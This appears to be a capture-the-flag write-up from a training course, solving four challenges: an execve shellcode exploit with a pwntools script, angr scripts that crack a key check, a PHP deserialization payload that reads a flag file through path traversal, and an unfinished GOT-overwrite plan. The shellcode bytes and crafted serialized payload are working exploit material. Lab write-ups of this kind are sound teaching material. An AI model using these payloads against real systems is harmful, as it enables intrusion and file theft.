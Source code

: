 ## backtoshell ![c](https://img.shields.io/badge/solved-success)
Really easy shellcode challenge, where we have a `read` of `0x200` bytes and after that every register is set to 0, then the code jumps to the buffer in which our input has been stored and executes it.

The main issue (easily bypassable) is the zeroing of the registers, also rsp, so we can't use the stack in our shellcode.

After trying some fancy reads, I realized that one of the simplest execve shellcode would be enough, the only problem was where to store the `/bin/sh` string. Without making it complex, if we put this string after the system call, we dont' care about possible errors, because we will already have our shell.

So let's write some assembly, knowing that in rax we will initially have the starting address of the buffer:

```assembly
mov rdi, rax    ; save the starting address for later
mov rax, 0x3b   ; id of the execve syscall
add rdi, 22     ; offset where /bin/sh will be (count shellcode bytes)
xor rsi, rsi    ; put rsi to 0
xor rdx, rdx    ; put rdx to 0
syscall         ; actual call
```
This is the script:

```python
from pwn import *

context.terminal = ['terminator', '-e']

r = remote("training.jinblack.it", 3001)

#input("wait")

execve = b"\x48\x89\xC7\x48\xC7\xC0\x3B\x00\x00\x00\x48\x83\xC7\x16\x48\x31\xF6\x48\x31\xD2\x0F\x05/bin/sh\x00"
#we can count 22 bytes before /bin/sh

r.send(execve)
r.interactive()
```

And this is the flag: **flag{Congratulation_you_got_aa_working_shellcode_!}**

## keycheck_baby ![c](https://img.shields.io/badge/solved-success)
After a rapid analysis we can see that it's a classic input guessing challenge. We can open it with `Ghidra`, and with a simple `Python` script we easily get the first part of the flag: flag{y0u_d4_qu33n_

Here it comes the first problem: even with Ghidra, the second input check seems unsolvable. 

For this reason I dropped the idea of understanding the code, and moved on angr to solve the challenge with symbolic execution.

With a basic script we can retrieve the flag, that is: **flag{y0u_d4_qu33n_0f_cr4ck1ngz}**

First script (classic angr):
```python
import angr
import claripy

FLAG_LEN = 31
STDIN_FD = 0

base_addr = 0x100000 # To match addresses to Ghidra , main_opts={'base_addr': base_addr}

proj = angr.Project("./keycheck_baby", main_opts={'base_addr': base_addr}) 

flag_chars = [claripy.BVS('flag_%d' % i, 8) for i in range(FLAG_LEN)]
flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')]) # Add \n for scanf() to accept the input

state = proj.factory.full_init_state(
        args=['./keycheck_baby'],
        add_options=angr.options.unicorn,
        stdin=flag,
)

# Add constraints that all characters are printable

for k in flag_chars:
    state.solver.add(k >= ord('!'))
    state.solver.add(k <= ord('~'))


simgr = proj.factory.simulation_manager(state)
find_addr  = 0x1013f8 # SUCCESS 101471 10136a 1013f8
avoid_addr = 0x101487 # FAILURE 102058 101487 
simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(simgr.found) > 0):
    for found in simgr.found:
        print(found.posix.dumps(STDIN_FD))
```

Second script (super cool):
```python
import claripy
import angr

p=angr.Project('./keycheck_baby')

simfile = angr.SimPackets('input')

st = p.factory.entry_state(stdin=simfile);
sm = p.factory.simulation_manager(st)
sm.explore(find=lambda s: b"Your input looks" in s.posix.dumps(1))
for s in sm.found:
    print(s.posix.dumps(0))
```
## lolshop ![c](https://img.shields.io/badge/solved-success)
This is a serialization challenge, and we are given the link of the website and also the source, and the hint that the flag is in `/secret/flag.txt` file path. 

First of all, let's explore the code and make a plan: we can see that there is only one method that unserializes an object, located in *State.php* called `restore($token)`.

```php
    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }
```

After that, we can notice that the only path we can see in all these files is the one representing the products' image: if we are able to modify this, we may obtain the flag as the image of one of the products. This is located in *Products.php*.

```php
    function getPicture() {
        $path = '/var/www/assets/' . $this->picture;
        $data = base64_encode(file_get_contents($path));
        return $data;
    }

    function getPrice() {
        return $this->price;
    }

    function toDict() {
        return array(
            "id" => $this->id,
            "name" => $this->name,
            "description" => $this->description,
            "picture" => $this->getPicture(),
            "price" => $this->price
        );
    }
```

The idea is:
1. we want to trigger the `toDict()` function of a product
2. we search for every call the `restore()` method in the source code
3. after finding the right `restore()` call, we try to craft a malicius payload

We can notice that in the *cart.php* page we have:
```php
...
} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}
```
so we can see that we call the `restore()`, then we call the `toDict()` on the unserialized state: COOL

What if we try to unserialize a `Product` object, instead of a State object?

We will have this situation: our object will be unserialized without errors, because it's a valid one; then the `$state->toDict()` instruction will be executed, but now the method refers to `Product.toDict()`, so the `getPicture()` will be executed with a payload that WE control.

The final script is:
```python
import requests
import json

url = 'http://jinblack.it:3006/api/cart.php'

#myobj = {'state': 'eJxNkE1rxCAQhvNTxNMu5JDRfOqphz0slA00217LRA0I+xHUPYQl/72atrAHX/SZd16c6UUl6BAwGCqYeHoBpaDZBjJvvLf3G5W9aKLp7yX4ZoNk+0WZ1VR6UcdObeoCedexqhwB2gJh7BreFTCBwrZRNWOT4qCha0dWaSzNWJsGYZqAa5wg5QB/ib7h1SQY2bIs6cbYS9lc0V6+UWsXQap28RPH03D4OJPj6dyT2d31QwVPdlbnJKXlRBuvnJ1DDMjJbFV4uEhnZ5XZk6+398/DQHZQ5IQi0qjjmFSpqMVeUrn+j79tSaELVKIA8bQCZDrr+gPGZmUA'}
myobj = {'state': 'eJxNjl0KwjAQhHuWPUCa1KqwOYS9QthEXdCkJFsQxLub/jwE5mH4dmbYG14Rppz8QgJ4xm9BYxC6A3XswTIabSs/NTy6d4AKK/OcVjfo5uxDocyzcIpHKrrn6sylSc1MsuRtZxgRlOp3lUA5SH9/uYeSj2y9se1lprD/pbX9/QGaazsG'}
'''
$xxx = new Product(10,'dio','nah', '../../../secret/flag.txt', 1000);
echo base64_encode(gzcompress(serialize($xxx)));
'''
x = requests.post(url, data = myobj)

print(x.text)
```

After sending the request we get this output:

![response](./lolshop.png)

We know that the flag is encoded in base64, so with a simple conversion we obtain: **actf{welcome_to_the_new_web_0836eef79166b5dc8b}**

## positiveleak
First of all, we run checksec to see what mitigations are enabled: 64-bit ELF with Partial RELRO, Canary, NX enabled, PIE enabled.

Let's now try to play with the executable a little bit, and maybe we can discover something interesting.

We can insert or print some numbers (initially all 0s), but if we try to insert it asks us how many numbers, and then the numbers themselves. If we put any number in the first request, and then we skip the "real" insertion and look for the results, we can notice something interesting:

The first two numbers displayed are 140723217504405 and 94243136696884, that in hex correspond to `0x7ffcad641891` and `0x55b6b0af7234`. Cool, smell like memory addresses.

Let's have a better look with `Ghidra`, in order to figure out what are those numbers.

From `Ghidra` we can notice that all the input is read by a function `get_int()`, that firstly does a read of 200 bytes and stores the result in a char buffer: we have no overflow, but we see that after this an `atoll()` is executed.

So this is the idea, use the leak obtained in order to overwrite the **GOT** of `atoll()` with `system()`, then trigger the `get_int()` function and insert `/bin/sh` as input. Theoretically, this will work (the file is dynamically linked).



